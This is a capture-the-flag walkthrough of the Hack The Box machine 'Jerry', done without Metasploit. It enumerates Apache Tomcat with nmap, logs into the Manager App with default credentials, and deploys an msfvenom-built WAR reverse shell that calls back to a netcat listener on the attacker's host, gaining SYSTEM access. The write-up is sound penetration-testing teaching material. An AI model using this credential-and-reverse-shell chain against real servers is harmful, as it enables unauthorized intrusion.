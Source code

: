 # Jerry without Metasploit

## Enumeration

### Run nmap scan: 

#### **`nmap -T4 -A -p- 10.10.10.95`**

* -T4 flag is to speed the scan up a bit. T3 is the default if this is not specified.
* -A flag will enable Operating system, version detection, script scanning, and traceroute.
* -p- flag will scan for all 65,535 ports. By default, if this is not specified, nmap will scan the top 1000 ports.

![Results of nmap scan](../.gitbook/assets/jerry-nmap.png)

#### Dissecting the Results:

* **Port 8080**: This port tends to be the second default choice to port 80, which is a webserver. We see the webserver version is Apache Tomcat/Coyote JSP engine 1.1. We also see Apache Tomcat is version 7.0.88 which we can google more information on if we need to later.
* We see the OS scan believes it to most likely be a Windows machine.

### Navigating the Webserver

Since there isn't much to go off of, we navigate to the webserver to further enumerate. Type `10.10.10.95:8080` in the URL and we land on the following page:

![Home screen of Apache Tomcat](../.gitbook/assets/navigated-to-jerry-tomcat.png)

Your first instinct should be to click everything that can lead to a different webpage and see if we can find anywhere we can login, upload files, leaked credentials, etc. Our first few options should be to check out Server Status, Manager App, and Host Manager.

* According to Apache Tomcat's User Guide version 7 for each function
  * Server Status: [View the status of the server](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html#Server_Status).
  * Manager App: ["In many production environments, it is very useful to have the capability to deploy a new web application, or undeploy an existing one, without having to shut down and restart the entire container." followed by "Deploy a new web application from the uploaded contents of a WAR file."](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html)
  * Host Manager: ["The Tomcat Host Manager application enables you to create, delete, and otherwise manage virtual hosts within Tomcat."](https://tomcat.apache.org/tomcat-7.0-doc/host-manager-howto.html)

With the list above, the Manager App appears to be an amazing option due to the ability to upload a WAR file, which can contain a reverse shell and ultimately give us access.

![](../.gitbook/assets/login-form.png)

We are prompted for login credentials, which we do not currently know so let's click 'Cancel' and we will be brought to the following page:

![](../.gitbook/assets/manager-login-cancelled.png)

We are brought to a 401 error page indicating we are not authorized to view Manager. We also see a sample username of **tomcat** and password of **s3cret** which are in fact some default credentials for tomcat. ****Let's try using these to login.

![](../.gitbook/assets/logging-into-manager-with-tomcat-s3cret-creds.png)

## Exploitation

Success! We were able to login. Now, we scroll to the bottom of the page to where we can see the 'Deploy' section. This is where we will upload a WAR file to gain a shell.

![](../.gitbook/assets/war-file-upload-location.png)

Next, we can google for a msfvenom payloads cheatsheet. I found mine at [https://netsec.ws/?p=331](https://netsec.ws/?p=331). 

![msfvenom war payload](../.gitbook/assets/msfvenom-war-payload.png)

We will need to edit this command for it to work. I will be editing mine to `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.95 LPORT=7777 -f war > shell.war` which will create a WAR file named shell.war and it will contain a reverse shell.

Next, we will set up a netcat listener to catch the shell.

`nc -nlvp 7777`

Browse for the WAR file and deploy it. It is now showing in Applications as /shell. 

![](../.gitbook/assets/war-file-deployed.png)

Once we click /shell, netcat will catch the shell as shown below.

![](../.gitbook/assets/reverse-shell.png)

Upon entering `whoami` we see we have system privileges and do not need to escalate from a lower level user. Grab the _**user.txt**_ and _**root.txt**_ flags using the command in the picture below.

![](../.gitbook/assets/whoami-and-flags-censored.png)


